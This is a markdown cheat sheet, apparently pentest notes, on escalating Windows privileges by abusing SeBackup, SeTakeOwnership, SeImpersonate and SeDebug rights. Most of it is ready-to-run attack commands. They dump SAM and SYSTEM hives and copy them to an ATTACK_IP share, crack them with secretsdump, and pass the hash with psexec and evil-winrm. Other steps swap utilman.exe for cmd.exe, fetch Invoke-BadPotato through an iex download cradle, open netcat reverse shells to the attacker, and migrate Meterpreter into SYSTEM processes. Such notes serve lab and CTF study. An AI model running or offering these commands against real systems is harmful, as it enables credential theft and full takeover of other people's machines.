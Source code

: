 # Windows Privileges

## Privilege check command: whoami /priv

## Examples of dangerous privileges:

### SeBackup/SeRestore

#### 1: Backup SAM and SYSTEM hashes

    cd /

    mkdir temp

    cd temp

    req save hklm\system c:\temp\system

    req save hklm\sam c:\temp\sam

    download sam

    download system

#### 2: Create SMB Server on attacking machine

    mkdir share

    impacket-smbserver -smb2support -username USER -password PASSWORD public share

#### 3: Copy backups to share folder

    copy c:\users\user\sam.hive \\ATTACK_IP\public\

    copy c:\users\user\system.hive \\ATTACK_IP\public\

#### 4: Retrieve hashes

    impacket-secretsdump -sam sam.hive -system system.hive LOCAL

## OR 

    pypykatz registry --sam sam system

#### 5: Pass-The-Hash Attack (PtH)

    impacket-psexec -hashes HASH administrator@TARGET_IP

#### TIP: We can also use evil-winrm for PtH attacks.

    evil-winrm -i TARGET_IP -u administrator -H 'NTLM_HASH'

## Alternate Method to transfer the Hives: reg.py  remotely on Linux

    python smbserver.py -smb2support share /tmp

    reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SAM' -o '\\attacker ip\share'

    reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SYSTEM' -o '\\attacker ip\share'

    reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SECURITY' -o '\\attacker ip\share'

## Alternate Method: SeBackupPrivilegeUtils https://github.com/giuliano108/SeBackupPrivilege

### Usage:

    Import-Module .\SeBackupPrivilegeUtils.dll

    Import-Module .\SeBackupPrivilegeCmdLets.dll

    Set-SeBackupPrivilege

    Get-SeBackupPrivilege

## Alternate Method: Robocopy

    robocopy C:\Users\Administrator\Desktop C:\Users\Public root.txt /B

    type C:\Users\Public\root.txt

## SeTakeOwnership

#### Essentially, we can take ownership of a service running as SYSTEM and elevate privileges.

### Example: Utilman.exe

#### 1: 

    takeown /f c:\windows\system32\utilman.exe

#### 2: 

    icacls c:\windows\system32\utilman.exe /grant USER:F

#### 3: 

    copy cmd.exe utilman.exe

#### 4: Trigger utilman : Lock screen, click ease of access

## SeImpersonate/SeAssignPrimaryToken

### A lot of potato exploits work with these privileges, so in our example we will talk about RoguePotato.

#### RogueWinRM.exe exploit

#### 1: Start listener

    c:\path\to\roguewinrm\roguewinrm.exe -p "C:\path\to\nc64.exe" -a "-e cmd.exe ATTACK_IP PORT"

## Tool: PrintSpoofer

## Link: https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

## Tool: Invoke-BadPotato

## Link: https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-BadPotato.ps1

Download the script on our target machine

    iex(new-object net.webclient).downloadstring('http://10.10.14.5:9999/Invoke-BadPotato.ps1')

Run the script to get system

    Invoke-BadPotato -Command "c:\temp\nc.exe -e powershell.exe ATTACK_IP PORT"

## SeDebug Privilege

### Tools: Meterpreter, https://github.com/decoder-it/psgetsystem

### Steps:

#### 1) 

    Get-Process winlogon (Check for a specific SYSTEM level process running on the machine)

#### 2) Download and execute Meterpreter on target machine to connect to us

#### 3) 

    ps (Check for processes running as SYSTEM. Example: winlogon.exe)

#### 4) 

    migrate PID (Take ownership of the elevated process)

#### 5) VOILA!

## TIP: If the SeDebug Privilege is disabled, we can enable it with psgetsystem powershell script (Link attached at the top of this attack's explanation)
